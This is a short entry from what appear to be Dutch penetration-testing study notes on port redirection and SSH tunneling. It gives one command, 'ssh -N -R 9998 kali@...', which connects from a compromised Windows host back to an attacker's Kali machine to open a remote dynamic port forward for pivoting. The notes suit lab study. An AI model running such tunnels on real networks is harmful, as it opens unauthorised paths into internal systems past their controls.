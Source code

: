 # 19. Port Redirection and SSH Tu — Entry 50

## Categorie

ssh.exe

## Commando

ssh -N -R 9998 kali@192.168.197.64

## Omschrijving

```
Connect back to our Kali machine to open the remote dynamic port forward
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

